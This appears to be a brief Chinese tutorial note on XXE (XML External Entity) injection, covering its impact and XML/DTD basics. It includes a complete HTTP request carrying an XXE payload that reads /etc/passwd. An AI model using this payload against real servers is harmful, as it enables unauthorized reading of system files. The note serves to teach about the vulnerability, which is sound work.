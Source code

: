 感觉以前也没怎么在意，然后技术摸底就被问起来了，仔细探究一下发现一些大型漏洞里面也都能发现XXE的影子，从XML注入到任意文件读取，到代码或者命令执行，内网端口探测，攻击内网主机等等。

## 简介
XXE全称是——XML External Entity,也就是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。一个比较经典的例子 
![注入一个XML节点，使添加了一个管理员账户](https://i.loli.net/2019/07/12/5d280db66707453328.png)

## 基础知识
- XML是一种标记语言，被无数软件项目采用
- DTD全称是The document type definition，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。
- DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。
- POST /xml.php HTTP/1.1

Host: 10.12.11.50

User-Agent: python-requests/2.18.4

Accept-Encoding: gzip, deflate

Accept: */*

Connection: close

Content-Length: 137

Content-Type: application/x-www-form-urlencoded



<?xml version="1.0" encoding="utf-8"?> 

<!DOCTYPE creds [  

<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]> 

<creds>&goodies;</creds>


相关连接
https://xz.aliyun.com/t/3357
https://www.jianshu.com/p/77f2181587a4
https://blog.csdn.net/xiaoyi52/article/details/82660471
https://www.freebuf.com/articles/web/177979.html